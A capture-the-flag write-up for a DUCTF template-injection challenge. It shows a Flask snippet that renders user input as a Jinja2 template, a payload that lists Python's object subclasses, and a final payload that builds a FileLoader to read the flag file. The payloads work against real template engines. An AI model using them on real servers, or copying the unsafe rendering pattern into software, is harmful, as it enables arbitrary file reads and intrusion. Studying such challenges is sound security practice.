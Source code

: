 ```yaml
---
ai_date: 2025-04-27 05:15:40
ai_summary: Template injection exploiting 'FileLoader' to read flag
ai_tags:
  - template
  - template-injection
  - class-extraction
created: 2024-07-06T23:50
description: A template injection chat bot
points: 100
solves: 993
title: Parrot EMU
updated: 2025-07-14T09:46
---
```


```python
try:
	result = render_template_string(user_input)
except Exception as e:
	result = str(e)
```

Well, its template injection time.
## Template Injection

Code inside of templates, have a very limited context, they are missing `globals`.
So we have to find those classes.
### Find Classes
`{{''.__class__.__base__.__subclasses__()}}`
`''.__class__` is the `str` class, `<str>.__base__` is the `object` class, this payload will hence give us all available classes.

```python
# EMU REPLY:
`[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, ...

<class '_frozen_importlib_external.FileLoader'>,  # this is what we want to use
<class '_frozen_importlib_external._NamespacePath'>, 
...
<class 'werkzeug.debug.console.Console'>, <class 'werkzeug.debug.tbtools.Line'>, <class 'werkzeug.debug.tbtools.Traceback'>, <class 'werkzeug.debug.tbtools.Group'>, <class 'werkzeug.debug.tbtools.Frame'>, <class 'werkzeug.debug._ConsoleFrame'>, <class 'werkzeug.debug.DebuggedApplication'>]`
```

We will use `FileLoader` to read our flag.
`a.findIndex(a=>a.includes("File")) = 99`, we have determined that its the 99th item is the subclass list.

## Attack
`{{''.__class__.__base__.__subclasses__()[99]("flag", "flag").get_data("flag")}}`

This constructs a new `FileLoader` instance and reads the flag.

`DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`

Simple stuff.